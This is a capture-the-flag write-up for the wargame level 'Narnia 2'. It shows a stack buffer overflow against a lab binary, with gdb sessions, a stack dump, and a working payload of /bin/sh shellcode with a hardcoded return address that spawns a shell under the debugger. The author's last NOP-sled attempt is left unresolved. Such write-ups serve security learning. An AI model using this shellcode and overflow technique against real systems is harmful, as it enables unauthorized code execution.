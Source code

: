# Solution for Narnia 2

We analyze the code and we see that the buffer size is 128 bytes. 
There is only the buffer in the local variables, so the stack structure is 

| buffer         | old_ebp | ret_addr|

So if we send the input of 132 bytes, we can overwrite old ebp and send ourselves a return address

## Proof of concept 
Let's craft the payload and send it 
```text
narnia2@narnia:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) r `python -c 'print "A"*132 + "BBBB"'`
Starting program: /narnia/narnia2 `python -c 'print "A"*132 + "BBBB"'`

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Yup, now let's send an address that hits the shellcode

## The exploit
First, we need to find where on stack the address is 
We need to check if we need to use ROP gadgets or if we can use direct addresses.
Check if ASLR is enabled or not
```text
narnia2@narnia:/narnia$ cat /proc/sys/kernel/randomize_va_space
0
```

Perfect! We can send direct addresses to the payload
Now let's find the shellcode
I set a breakpoint before the strcpy instruction executes. Now I analyze the stack and find my 41414141
```text
(gdb) x/200wx $ebp
0xffffd638:     0x00000000      0xf7e2a286      0x00000002      0xffffd6d4
0xffffd648:     0xffffd6e0      0x00000000      0x00000000      0x00000000
0xffffd658:     0xf7fc5000      0xf7ffdc0c      0xf7ffd000      0x00000000
0xffffd668:     0x00000002      0xf7fc5000      0x00000000      0x8a753f0a
0xffffd678:     0xb09d331a      0x00000000      0x00000000      0x00000000
0xffffd688:     0x00000002      0x08048350      0x00000000      0xf7fee710
0xffffd698:     0xf7e2a199      0xf7ffd000      0x00000002      0x08048350
0xffffd6a8:     0x00000000      0x08048371      0x0804844b      0x00000002
0xffffd6b8:     0xffffd6d4      0x080484a0      0x08048500      0xf7fe9070
0xffffd6c8:     0xffffd6cc      0xf7ffd920      0x00000002      0xffffd804
0xffffd6d8:     0xffffd814      0x00000000      0xffffd89d      0xffffd8b0
0xffffd6e8:     0xffffde6c      0xffffdea1      0xffffdeb0      0xffffdec1
0xffffd6f8:     0xffffded6      0xffffdee3      0xffffdeef      0xffffdef8
0xffffd708:     0xffffdf0b      0xffffdf2d      0xffffdf40      0xffffdf4c
0xffffd718:     0xffffdf63      0xffffdf73      0xffffdf87      0xffffdf92
0xffffd728:     0xffffdf9a      0xffffdfaa      0x00000000      0x00000020
0xffffd738:     0xf7fd7c90      0x00000021      0xf7fd7000      0x00000010
0xffffd748:     0x178bfbff      0x00000006      0x00001000      0x00000011
0xffffd758:     0x00000064      0x00000003      0x08048034      0x00000004
0xffffd768:     0x00000020      0x00000005      0x00000008      0x00000007
0xffffd778:     0xf7fd9000      0x00000008      0x00000000      0x00000009
0xffffd788:     0x08048350      0x0000000b      0x000036b2      0x0000000c
0xffffd798:     0x000036b2      0x0000000d      0x000036b2      0x0000000e
0xffffd7a8:     0x000036b2      0x00000017      0x00000001      0x00000019
0xffffd7b8:     0xffffd7eb      0x0000001a      0x00000000      0x0000001f
0xffffd7c8:     0xffffdfe8      0x0000000f      0xffffd7fb      0x00000000
0xffffd7d8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd7e8:     0x5a000000      0xdf06f8c5      0xc97abaec      0xcaec24ac
0xffffd7f8:     0x698a375a      0x00363836      0x00000000      0x72616e2f
0xffffd808:     0x2f61696e      0x6e72616e      0x00326169      0x41414141
0xffffd818:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd828:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd838:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd848:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd858:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd868:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd878:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd888:     0x41414141      0x41414141      0x41414141      0x41414141
```

We have found it at 0xffffd814
We use it in the payload
```text
python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*108 + "\x14\xd8\xff\xff"'
```

Cool, we get shell. I can only get it to run in gdb though
```text
narnia2@narnia:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) r $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*108 + "\x14\xd8\xff\xff"')
Starting program: /narnia/narnia2 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*108 + "\x14\xd8\xff\xff"')
process 7373 is executing new program: /bin/dash
$ 
```
I don't know why it isn't working outside gdb, and at this point, I don't have the time to figure out why, because the addresses are hitting

Even if i put in the NOP sled beforehand, I'm not able to hit the address of shell. So maybe I'm doing something wrong here

```text
narnia2@narnia:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) $(python -c 'print "\x90"*108 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x24\xd8\xff\xff"')
Undefined command: "$".  Try "help".
(gdb) r $(python -c 'print "\x90"*108 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x24\xd8\xff\xff"')
Starting program: /narnia/narnia2 $(python -c 'print "\x90"*108 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x24\xd8\xff\xff"')
process 7433 is executing new program: /bin/dash
$ 
```
I'm getting a segmentation fault here

